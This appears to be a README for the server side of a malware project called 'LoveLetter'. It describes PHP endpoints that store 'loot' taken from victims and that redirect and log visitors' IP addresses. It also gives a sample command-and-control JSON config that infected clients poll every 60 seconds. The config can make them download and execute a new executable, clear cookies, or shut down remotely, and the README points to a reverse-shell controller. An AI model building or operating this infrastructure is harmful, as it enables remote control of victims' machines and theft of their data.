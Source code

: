 <div>
  <img width="220" align="right" src="../Repo/Images/8.png" alt="LoveLetter"/>
  <br>
</div>


# 🎁 PHP Endpoints

### 📝 [Tell me!](TellMe.php) (TellMe.php)
The PHP file that handles and stores loot from the letter and stores them nicely structured on the server.

### 📝 [Take me there.](TakeMeThere.php) (TakeMeThere.php)
A redirector and IP logger, the usage is pretty simple a base64 format of the target link can be parametered on ``TakeMeThere.php?b64=`` or a clean link can be parametered on ``TakeMeThere.php?to=``.
<br/>


# ⚙️ Configuration
Update.json is being fetched by the client to check for any server commands. You can update it to your liking.
This config gets initialized everytime the letter is run and then refreshed every 60 seconds, for controlling on runtime, please see [the Controller]("../Controller/")
## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.


<br/>
<br/>

### For real-time commands you may use the [**Reverse Shell**](../Controller).